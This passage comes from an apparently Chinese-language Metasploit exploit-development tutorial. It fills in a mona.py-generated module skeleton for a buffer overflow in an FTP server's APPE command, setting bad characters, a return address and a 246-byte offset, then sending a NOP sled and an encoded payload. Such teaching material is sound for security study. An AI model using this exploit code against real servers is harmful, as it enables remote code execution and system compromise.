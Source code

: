```
    handler
    disconnect
  end
end
```

`mona.py`脚本还支持大量其他功能，从而实现更好的漏洞开发。有关`mona.py`脚本的更多信息，请参阅[http://community.rapid7.com/community/metasploit/blog/2011/10/11/monasploit](http://community.rapid7.com/community/metasploit/blog/2011/10/11/monasploit) 。

## 填充值

生成的格式很容易理解，因为有自己的文档。因此，让我们更进一步，将我们在前一阶段收集的所有值填充到骨架中。

由于这是对 FTP 服务的攻击，我们将修改该语句，包括`FTP`而不是`TCP`，如下代码段所示：

```
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::FTP
```

接下来，我们需要根据需要修改利用漏洞的信息。然后，我们需要将坏字符设置为`\x00\x0a\x0d`以确保漏洞利用的正常工作，并将`DisableNops`设置为`false`，以便漏洞利用不会删除 NOP。接下来，我们需要设置返回地址，根据注释值指定为`Ret`和`Offset`，如下所示：

```
'Payload'  =>
        {
          'BadChars' => "\x00\x0a\x0d", # <change if needed>
          'DisableNops' => false,
        },

'Targets'    =>
        [
          [ '<fill in the OS/app version here>',
            {
              'Ret'     =>  0x71AB9372,
              'Offset'  =>  246
            }
          ],
        ],
```

现在是逻辑部分。让我们看看我们如何在`APPE`命令后发送 246 个 NOP 的逻辑，然后是返回地址/偏移量，然后是 50 个 NOP，最后是编码格式的有效负载：

```
   connect_login
   buffstuff = make_nops(target['Offset'])
   datatosend = buffstuff+[target.ret].pack('V')+make_nops(50)+payload.encoded
   send_cmd( ['APPE', datatosend] , false )
```

